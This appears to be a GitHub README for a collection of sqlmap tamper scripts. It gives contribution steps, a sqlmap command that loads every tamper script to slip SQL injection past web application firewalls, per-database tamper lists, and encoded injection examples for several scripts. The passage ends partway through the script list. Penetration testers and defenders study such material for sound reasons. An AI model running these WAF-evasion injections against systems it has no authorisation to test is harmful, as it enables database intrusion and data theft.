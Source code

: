 ## Contribution
1. Fork
2. Clone : `https://github.com/[USERNAME]/sqlmap-multi-language-tamper.git`
3. Create a new branch: `git checkout -b YourBranch`
4. Commit changes: `git  add * && git commit 'description'`
5. Create Pull Request(PR)

Or, open an issue for new requests and bugs reporting!

# SQLMap Tamper Scripts (SQL Injection and WAF bypass) Tips
Use and load all tamper scripts to evade filters and WAF :
~~~python
sqlmap -u ‘http://www.site.com/search.cmd?form_state=1’ — level=5 — risk=3 -p ‘item1’ — tamper=apostrophemask,apostrophenullencode,appendnullbyte,base64encode,between,bluecoat,chardoubleencode,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,nonrecursivereplacement,percentage,randomcase,randomcomments,securesphere,space2comment,space2dash,space2hash,space2morehash,space2mssqlblank,space2mssqlhash,space2mysqlblank,space2mysqldash,space2plus,space2randomblank,sp_password,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords
~~~
General Tamper testing:
~~~
tamper=apostrophemask,apostrophenullencode,base64encode,between,chardoubleencode,charencode,charunicodeencode,equaltolike,greatest,ifnull2ifisnull,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2plus,space2randomblank,unionalltounion,unmagicquotes
~~~
MSSQL:
~~~
tamper=between,charencode,charunicodeencode,equaltolike,greatest,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,sp_password,space2comment,space2dash,space2mssqlblank,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes
~~~
MySQL:
~~~
tamper=between,bluecoat,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2hash,space2morehash,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords,xforwardedfor
~~~
Here lists of sqlmap Tamper scripts with with explanation
apostrophemask.py
~~~
Function: Encoding quotation marks with utf8
Platform: All
example
1 AND ‘1’=’1 ==> 1 AND %EF%BC%871%EF%BC%87=%EF%BC%871
~~~
apostrophenullencode.py
~~~
Function: ‘ ==> %00%27
Platform: All
example
1 AND ‘1’=’1 ==> 1 AND %00%271%00%27=%00%271
~~~
appendnullbyte.py
~~~
Function: Space ==> %00
Platform: Microsoft Access
example
1 AND 1=1 ==> 1 AND 1=1%00
~~~
base64encode.py
~~~
Function: base64 encode
~~~
